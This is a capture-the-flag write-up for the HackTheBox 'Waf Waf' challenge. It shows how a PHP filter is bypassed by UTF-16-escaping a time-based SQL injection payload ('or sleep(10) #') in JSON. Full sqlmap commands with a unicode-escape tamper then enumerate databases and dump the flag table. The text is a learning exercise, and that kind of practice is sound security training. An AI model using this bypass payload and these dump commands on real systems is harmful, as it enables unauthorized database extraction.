 # bugbase_task2
# Waf Waf Challenge HTB

<img src="Picture1.png">

On entering the ip in the browser

<img src="Picture2.png">
it looks somewhat a php code
there is a sql database and the input of POST requests are filtered using the function *waf*

<img src="Picture3.png">

The script ends abruptly after a symbol is found


***[, (, *, <, =, >, |, ', &, -, @, ], select, and, or, if, by, from, where,
as, is, in, not, having***


lets try sqli


# SQLi

Checking what happens when we make a request with one of the words that are filtered by the waf:

**curl http://46.101.23.188:32080/ -X POST -d '{"user":"select"}'
array(1) {
  [0]=>
  string(6) "select"
}**


the script seems to accept **json** code;
and after getting json code  we can simply convert it into utf-16


lets burp we need to enter the localhoast address after -x


**curl http://46.101.23.188:32080/ -X POST -d '{"user":"d"}' -x http://127.0.0.1:8080**

<img src="Picture4.png">

Once the request is captured, we will send it to the repeater



<img src="Picture5.png">

after this we will overcome this  using payload **or sleep(10) #** will be encoded to utf-16 to json decode.

I use this [unicode converter](https://www.branah.com/unicode-converter)

<img src="Picture11.png">



load the payload.

<img src="Picture12.png">





now enter the POST code into a .txt and rwplace the payload placeholder with ```bash * ```

<img src="Picture13.png">

# time based SQL Injection

execuing time based sqli using  ```sqlmap``` to retrieve database.

**sqlmap -r requestt.txt -tamper charunicodeescape -v 3 --batch --level=5 --risk=3 --threads=10 --technique=T --dbs --dbms=mysql**


<img src="Picture6.png">

We can see here we have five databases db_m8452, info_schema, mysql, performance_schema, sys.
lets retrive tables from db_m8452:


**sqlmap -r qw.txt -tamper charunicodeescape -v 3 --batch --level=5 --risk=3 --threads=10 --technique=T -D db_m8452 --tables --dbms=mysql**


<img src="Picture7.png">

db_m8452  has two tables, *definitely_not_a_flag* and *notes*. lets dump  *definitely_not_a_flag* (--dump).


**sqlmap -r requestt.txt -tamper charunicodeescape -v 3 --batch --level=5 --risk=3 --threads=10 --technique=T -D db_m8452 -T definitely_not_a_flag --dump --dbms=mysql**

after applying the time based sql inject. and many payloads later we got the flag

<img src="Picture10.png">



